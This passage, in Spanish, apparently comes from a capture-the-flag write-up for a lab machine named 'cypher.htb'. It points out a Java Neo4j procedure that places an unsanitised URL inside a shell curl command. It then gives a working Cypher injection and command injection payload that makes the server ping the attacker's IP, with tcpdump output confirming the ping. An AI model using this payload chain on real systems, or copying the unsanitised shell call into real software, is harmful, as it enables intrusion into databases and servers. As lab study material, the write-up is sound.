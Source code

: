 El parámetro `url` no se sanitiza, se envía directamente dentro de un comando que será ejecutado, esto puede ser una vía potencial para inyectar comandos dentro de esta función

~~~ java
Object[] command = new String[]{"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + (String)url};
~~~

Además sabemos que la función se registra como un procedimiento almacenado para ser utilizado dentro de `Neo4j`

~~~ java
@Procedure(name="custom.getUrlStatusCode", mode=Mode.READ)
    @Description(value="Returns the HTTP status code for the given URL as a string")
~~~
<br>


# Intrusión / Explotación
---
## Cypher Injection + Command Injection

Sabiendo que las consultas se realizan en el lenguaje `Cypher`, intentaremos inyectar una query maliciosa. Te dejo una guía de [`Cypher Injection`](https://pentester.land/blog/cypher-injection-cheatsheet/). Además utilizaremos la función personalizada `custom.GetUrlStatusCode()` para intentar inyectar un comando dentro de ésta.

A modo de prueba de concepto, enviaremos un `ping` a nuestra máquina atacante: 
- Llamaremos a la función `getUrlStatusCode()` utilizando la palabra `CALL`.
- `YIELD statusCode RETURN statusCode` asegura que la consulta sea válida y retorna el valor que la función retorna 
- Cerraremos la consulta con `//` para comentar el resto y evitar errores de sintaxis

~~~ cypher
' OR 1=1 CALL custom.getUrlStatusCode("x.com; ping -c1 10.10.14.187") YIELD statusCode RETURN statusCode //
~~~

Iniciaremos una captura de tráfico ICMP para detectar si estamos recibiendo la traza desde la máquina víctima. 

~~~ bash
tcpdump -i tun0 icmp
~~~

Cuando enviemos la query `cypher` en el formulario de Login, desde `tcpdump` veremos cómo el servidor nos envía un `ping`

~~~ bash
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
14:15:31.340812 IP cypher.htb > 10.10.14.187: ICMP echo request, id 39913, seq 1, length 64
14:15:31.340835 IP 10.10.14.187 > cypher.htb: ICMP echo reply, id 39913, seq 1, length 64
~~~

### Exploiting
